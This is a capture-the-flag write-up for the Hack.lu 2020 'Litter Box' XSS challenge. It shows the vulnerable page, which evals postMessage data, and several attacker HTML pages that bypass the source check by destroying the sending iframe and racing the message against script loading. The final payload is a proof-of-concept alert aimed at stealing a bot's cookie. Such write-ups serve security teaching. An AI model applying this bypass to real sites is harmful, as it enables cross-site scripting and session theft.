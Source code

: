 > :Title shadow=0 0 8px black, color=white
>
> Hack.lu 2020 CTF - Litter Box - Writeup

> :Author name=Alain, date=25/10/2020

<br>

# The challenge
First of all, I want to give a huge shoutout to [@fluxfingers](https://twitter.com/fluxfingers) for organizing this years hack.lu CTF. It was amazing: the beautiful theme, creative and no guessing challenges, and no technical problems. 

## Source Code
The challenge was purely a XSS challenge, so no server side trickeries. The source code was also very short:
```html | index.html
<html>
    <body>
        <script>
            window.onmessage = (e) => {
/*!*/                if (e.source == window.frames[0]){
                        eval(e.data) // 😽
                }
            }
        </script>

        <script src='main.js'></script>
        <iframe id='litterbox' sandbox></iframe>
    </body>
</html>
```

The source code of main.js:
```js | main.js
(async () => {
    const urlParams = new URLSearchParams(location.search)
    let src = urlParams.get('src') ? urlParams.get('src') : 'sandbox.html'
    // make sure its up
    try{
        await fetch(src, {mode: 'no-cors', cache: 'no-cache'})
    }
    catch(e){
        console.log('noooo hecking')
        return
    }
    litterbox.src = src   
})()
```
The goal was to steal a cookie set by the bot we submit a URL to.
It's pretty clear that we need to somehow pass the condition on line 5 in index.html to eval our own javascript to extract the cookie. So let's get started!

# The solution

## Baby steps
To reach the `eval` call, we first need to execute `onmessage`. This can be done by calling `postMessage` on the window. Let's give it a try by embedding the site in an iframe of one of our own controlled websites and execute postMessage on it:

 ```html | attack.html
 <html>
<html>
  <body>
    <iframe id="litterbox_website"></iframe>

    <script>
      litterbox_website.src = "https://litterbox.cf/"
      litterbox_website.onload = () => {
        litterbox_website.contentWindow.postMessage("yolo", "*") // --> '*' is used to allow to post messages cross domain
      }
    </script>
  </body>
</html>
 ```

Setting a breakpoint on `onmessage`, we can see that the event is triggered:

![bp](img/breakpoint_onmessage.PNG)
Ok, now to the intersting part. We need to somehow pass the condition `e.source == window.frames[0]`.
 
 ## Bypassing `e.source == window.frames[0]`

Using the example code before, we can see in the debugger, that `e.source` is the window containing our (attacker's) website (the one wehre `postMessage` was executed on).

`window.frames[0]` is the window of the sandboxed iframe included at the end of the challenge website. At first sight, one might think that there are only 2 possibilities to make `e.source == window.frames[0]` evaluate to true:
### 1. make `e.source` reference the same object as `window.frames[0]`
If we want to change `e.source` to be the same as `window.frames[0]`, we would need to execute the `postMessage`function from inside the sandboxed iframe. However, as the iframe is sandboxed, there is no way to execute javascript inside and therefore there is also no way to execute `postMessage` inside of it.

### 2. make `window.frames[0]` reference the same object as `e.source`
For this, we would need the first embedded iframe on the litter box site to be the one that exectues `postMessage`. As there is no way to change the DOM on the website, it is impossible to add an own controlled iframe that is not sandboxed before the sandboxed iframe. What now?

### The third possibility: I thought there were only 2 possibilities
What if we could change both `e.source` and `window.frames[0]`??
I knew of a way to make `e.source` equal to `null`. 

##### Make `e.source` be `null`
One can force `e.source` to be `null` by destroying the window that executed the `postMessage` before the `onMessage`is received by the other window! Let's give it a shot:

```html | attack.html
<html>
<html>
  <body>
    <iframe id="litterBoxWebsite"></iframe>

    </div>
    <script>
/*+*/      let postMessageWithNullSource = (message) => {
/*+*/        let newWindow = document.createElement("iframe")
/*+*/        document.body.appendChild(newWindow)
/*+*/        newWindow.contentWindow
/*+*/              .eval(`top.litterBoxWebsite.contentWindow.postMessage('${message}', '*')`)
/*+*/        document.body.removeChild(newWindow) // --> remove the window that executed postMessage so that e.source will be null
/*+*/      }

      litterBoxWebsite.src = "https://litterbox.cf/"
      litterBoxWebsite.onload = () => {
/*!*/        postMessageWithNullSource("yolo") // --> same as postMessage, but e.source will be null
      }
    </script>
  </body>
</html>
 ```

Checking `e.source` on the breakpoint:

![bp_source_null](img/breakpoint_src_null.PNG)

Nice! We got the left-hand side of the condition to be `null`. Let's check the equality table what the right side needs to be to make it pass:

![js_equality](https://algassert.com/assets/2014-03-27-Better-JS-Equality-Table/grouped-table.png)
([Image Source](https://algassert.com/visualization/2014/03/27/Better-JS-Equality-Table.html))

So the right hand side of the condition (`window.frames[0]`) needs to be eiter `null` or `undefined`.

##### Make `window.frames[0]` be `undefined`
The only way I could think of making `window.frames[0]` be `undefined` was by removing the sandboxed iframe from the DOM. But there was no way to modify the DOM.

That's when I got the idea that maybe it was possible to trigger the `onmessage` event before the whole HTML Document was loaded.
If we managed to execute the `onmessage` event before the document loading reached the sandboxed iframe element, we would have `window.frames[0]` being `undefined`.

But is this possible? Is it possible that our postMessage will be handled by the Javscript Scheduler while the HTML Document is being parsed? The answer is no. HOWEVER: if there is a script element that is not async, the HTML Parsing is stopped and the Javascript Scheduler is waiting until the script is finished loading over the network.

![html_parsing](https://flaviocopes.com/javascript-async-defer/without-defer-async-head.png)
([Image Source](https://flaviocopes.com/javascript-async-defer/))

During this time that the script is loading, the Javascript Scheduer is free to do other sutf: including processing received `postMessage` events that are not handled yet!

So let's try to race condition postMessage/onmessage to execute while the `main.js` script is loading:

```html | attack.html
<html>
<html>
  <body>
    <iframe id="litterBoxWebsite"></iframe>

    </div>
    <script>

      let postMessageWithNullSource = (message) => {
        let newWindow = document.createElement("iframe")
        document.body.appendChild(newWindow)
        newWindow.contentWindow.eval(`top.litterBoxWebsite.contentWindow.postMessage("${message}", '*')`)
        document.body.removeChild(newWindow)
      }

      let stopTryRaceConditioning = false
      let raceCondition = () => {
        postMessageWithNullSource("alert(1)")
        if (!stopTryRaceConditioning) { // <-- repeat until iframe is fully loaded
          setTimeout(raceCondition, 1) // <-- repeat after one ms, let scheduler do other stuff during that time
        }
      }

      litterBoxWebsite.src = "https://litterbox.cf/?src=data:,"
      litterBoxWebsite.onload = () => { 
        stopTryRaceConditioning = true
      }
      raceCondition()
    </script>
  </body>
</html>
```

If we are a bit lucky, the scheduler has time to execute our postMessage request during the laoding of the `script.js`, which is before the sandboxed iframe is in the DOM. As a result `e.source == window.frames[0]` <==> `null == undefined` <==> `true`

Using the chrome profiler, one can see that onmessage is called between the two parseHtml parts:

![profiler](img/profiler.PNG)

I guess I was pretty lucky that it worked first try. Sometimes, the Javascript scheduler is just not fast enough to process our postMessage request before the `script.js` has finished loading. In that case, one can simply repeat the whole process until successful.  